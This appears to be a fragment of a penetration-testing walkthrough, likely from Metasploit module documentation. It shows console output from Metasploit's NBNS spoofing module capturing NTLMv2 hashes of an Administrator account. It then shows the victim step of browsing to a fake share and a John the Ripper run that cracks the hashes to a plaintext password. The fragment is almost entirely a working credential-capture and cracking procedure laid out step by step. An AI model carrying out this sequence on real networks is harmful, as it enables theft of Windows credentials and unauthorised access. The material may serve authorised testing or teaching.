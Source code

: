 ```
[*] Auxiliary module running as background job 1.
msf5 auxiliary(spoof/nbns/nbns_response) > 
[*] NBNS Spoofer started. Listening for NBNS requests with REGEX ".*" ...
[+] 2.2.2.2    nbns - FAKE matches regex, responding with 1.1.1.1
[+] 2.2.2.2    nbns - FAKE matches regex, responding with 1.1.1.1
[*] SMB Captured - 2019-09-26 16:19:09 -0400
NTLMv2 Response Captured from 2.2.2.2:49161 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:5a44b22db99861330e1637f0565f595f 
NT_CLIENT_CHALLENGE:010100000000000022529fa7a774d501b3b3f093392560d600000000020000000000000000000000
[*] SMB Captured - 2019-09-26 16:19:09 -0400
NTLMv2 Response Captured from 2.2.2.2:49161 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:00837cb572f0116c7544ca0f56d31f5c 
NT_CLIENT_CHALLENGE:0101000000000000c606c3a7a774d501c28ee74be786099100000000020000000000000000000000
[*] SMB Captured - 2019-09-26 16:19:09 -0400
NTLMv2 Response Captured from 2.2.2.2:49161 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:b571090dea4270b6b6d2b3de39321b29 
NT_CLIENT_CHALLENGE:010100000000000087c9c7a7a774d501c00e467bda8a8b4a00000000020000000000000000000000
[*] SMB Captured - 2019-09-26 16:19:09 -0400
NTLMv2 Response Captured from 2.2.2.2:49161 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:dc28e9e94c6199e814937d61e3956c7d 
NT_CLIENT_CHALLENGE:0101000000000000084fd1a7a774d5014f34895403460b1b00000000020000000000000000000000
```

Victim:
```
Open Explorer and type \\fake
```

Finally, Crack the password:
```
# john /tmp/johnnbns_netntlmv2 -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
6g 0:00:00:00 DONE (2019-09-26 16:25) 100.0g/s 614400p/s 3686Kc/s 3686KC/s dyesebel..holaz
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
